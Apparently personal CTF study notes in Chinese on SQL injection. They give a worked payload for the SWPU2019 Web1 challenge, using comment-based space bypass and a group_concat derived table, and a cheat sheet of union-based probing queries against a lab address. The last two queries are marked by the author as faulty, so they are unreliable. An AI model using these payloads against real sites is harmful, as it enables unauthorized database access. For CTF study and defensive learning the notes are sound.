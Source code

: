 

### 实例
[[SWPU2019]Web1](https://www.jianshu.com/p/dc9af4ca2d06)

尝试 `-1' select 1,2,3'` 提示 `select1,2,3 limit 0,1 at line 1`

复原语句 `select * from ads where title = '$title' limit 0,1;`

payload替换$title, 再将空格替换为`/**/`:
    
    -1'union select/**/1,(
        select/**/group_concat(b)/**/from(
            select/**/1,2/**/as/**/a,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users
        )as/**/x
    ),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

解析

    select 1,2 as a,3 as b union select * from users ， users有3列，用a代表2列 b代表3列一会儿进行group by, 就能控制2 3列了
    select group_concat(b) from(select 1,2 as a,3 as b union select * from users)as x, 再group concat b把users的第3列即flag列 连接起来
    再组合上去，由系统查出2，3列得到flag
    
    as x 也需要，Every derived table must have its own alias



### 常用语句

where id = 1 and 1=1

where id = 1 and 1=2

1有结果，2没结果，上面两句确定数据库是否执行。

select * from user where id = 1 and 1=1 union select flag from flag, union需要前后列一样。

使用orderby 看几次没结果确定列数。

    union select 1,2,3          ---是列数
    http://192.168.100.111/web/web15/?id=1 Order by 3  , 确定了是3列。
    http://192.168.100.111/web/web15/?id=1 Order by 4  , 没有结果。
    
    前面没结果时显示后面的结果。用-1 或者 and 1=2
    http://192.168.100.111/web/web15/?id=-1 Union Select 1,2,3
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),2,3     --查询库名
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),user(),3     --查询用户名
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),user(),version()     --查询数据库版本
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),user(),version()     --查询数据库版本
    INFORMATION_SCHEMA 数据库保存 库，表的信息。
      SCHEMATA 库名
      TABLES  有两列，一列所有库，二列所有库的所有表。
      COLUMNS 全部库的表的列
    
    --有问题 http://192.168.100.111/web/web15/?id=-1 Union Select TABLE_NAME,2,3 where table_schema = database()     --查询数据库表名
    --有问题 http://192.168.100.111/web/web15/?id=-1 UNION SELECT TABLE_NAME,2,3 FROM INFORMATION_SCHEMA WHERE TABLE_SCHEMA = DATABASE() 
